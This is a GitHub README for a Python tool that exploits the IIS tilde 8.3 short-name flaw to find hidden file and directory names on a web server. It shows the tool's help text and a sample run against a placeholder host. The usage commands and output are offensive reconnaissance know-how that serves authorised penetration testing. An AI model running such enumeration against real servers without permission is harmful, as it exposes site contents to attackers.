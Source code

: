 iis_tilde_enum
==============

Takes a URL and then exploits the **IIS tilde 8.3 enumeration vuln** and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
[raft-small-words-lowercase.txt](https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt)
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).
You can find the converting rules for 8.3 filename on [wikipedia](http://en.wikipedia.org/wiki/8.3_filename#How_to_convert_a_long_filename_to_a_short_filename)

Always enjoy feedback and suggestions.


Help
----
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d PATH_WORDLISTS] [-e PATH_EXTS] [-f]
                     [-o OUT_FILE] [-p PROXY] [-u URL] [-v VERBOSE_LEVEL]
                     [-w WAIT] [--resume RESUME_STRING]
                     [--limit-ext LIMIT_EXTENSION]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d PATH_WORDLISTS     Path of wordlists file
  -e PATH_EXTS          Path of extensions file
  -f                    Force testing even if the server seems not vulnerable
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --resume RESUME_STRING
                        Resume from a given name (length lt 6)
  --limit-ext LIMIT_EXTENSION
                        Enumerate for given extension only
</pre>


Sample Output
-------------
<pre>
$  ./tilde_enum.py -u "http://iis/subdir" -w 0.5 -o output/result.txt --resume=announ
[-]  Testing with dummy file request http://iis/Uxd9ckrVGZMmp.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/
[-]    URLUser -> HTTP Code: 200, Response Length: 1914
[-]  Resume from "announ"... characters before this will be ignored.
[-]  User-supplied delay detected. Waiting 0.5 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the IIS tilde enumeration vulnerability..
[+]  Found file:  announ~1.htm
[+]  Found directory:  aspnet~1/
[+]  Found file:  cate-v~1.asp
[+]  Found file:  cate-v~2.asp
[*]  Testing: http://iis/c9*~1*/.aspx
[!]  Stop tilde enumeration manually. Try wordlist enumeration from current findings now...

---------- OUTPUT START ------------------------------
[+] Raw results:
http://iis/announ~1.htm
http://iis/aspnet~1/
http://iis/cate-v~1.asp
http://iis/cate-v~2.asp

[+] Existing files found: 1
http://iis/announcement.htm

[+] Existing Directories found: 1
http://iis/aspnet_client/
---------- OUTPUT COMPLETE ---------------------------
</pre>
